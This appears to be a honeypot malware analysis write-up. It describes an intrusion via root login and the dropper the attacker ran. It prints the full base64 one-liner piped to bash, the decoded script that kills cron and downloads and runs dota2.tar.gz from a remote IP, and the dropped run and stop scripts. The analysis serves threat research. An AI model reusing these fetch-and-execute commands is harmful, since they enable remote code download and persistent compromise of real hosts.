 ### What the cat brought home

I was looking at my honey pot this morning and I saw a what looked like base64 strings. A lot of time attackers like base64 because it makes it easy for them to bypass detection or even becuase it can ensure that
the string is still the same when ran. The attacker used the login, root/jinsheng to gain access to the honey pot. The Ip address used was: ```54.37.136.183```
In figure 1, we can see the actually command that the attacker used. 
```ruby 
cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
Figure 1: the command used to download the malware.
As seen in Figure 1, the attacker first changed the directory to ```/var/tmp````. After changing the directory the base64 encoded string is decoded and than run. In Figure 2, we can see the
decoded base64 string.

```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
Figure 2: the decoded base64 string
As seen in figure 2, the base64 removes the directory ```.X15-unix``` and then creates a new directory named the same thing.
After it creates a new directory the script changes to the newly created directory and also kills the cron process.
Next the the attacker downloads a .tar.gz file from ```http://54.37.70.249/dota2.tar.gz```. 
The script will than change directories to the .rsync and give the all the files in the dirctories permissions, after that it will run the
files ```a``` and ```cron```.


### A Look into the files dropped

In Figure 3, we can see that there is a bunch of folders and files inside the .tz. The attackers used
![Octocat](https://i.imgur.com/jmoC3qM.png=100x20)
Figure 3: the untar-ed contents of ```dota2.tar.gz```

In Figure 4,  we take a peak inside the file at ```a/run``` we can see that its a bash script that job is to check what arch the host machine is using and then runs the correct file. 
```ruby
#!/bin/bash
./stop
sleep 10
pwd > dir.dir
dir=$(cat dir.dir)
ARCH=`uname -m`
	if [ "$ARCH" == "i686" ]; then
		nohup ./anacron >>/dev/null & 
	elif [ "$ARCH" == "x86_64" ];   then
		./cron || ./anacron
	fi
echo $! > bash.pid
```
Figure 4: the contents of run

In Figure 3, we can see that the ```a/run``` file runs a file called ```./stop```. In Figure 5, we can see that its job is kill any running proccesss called cron. The stop script also removes the file named ```.proc```.

```ruby#!/bin/sh
pkill -9 cron
killall -9 cron
kill -9 `ps x|grep cron|grep -v grep|awk '{print $1}'`>.proc
rm -rf .proc
```
Figure 5: the contents of ```a/stop```.
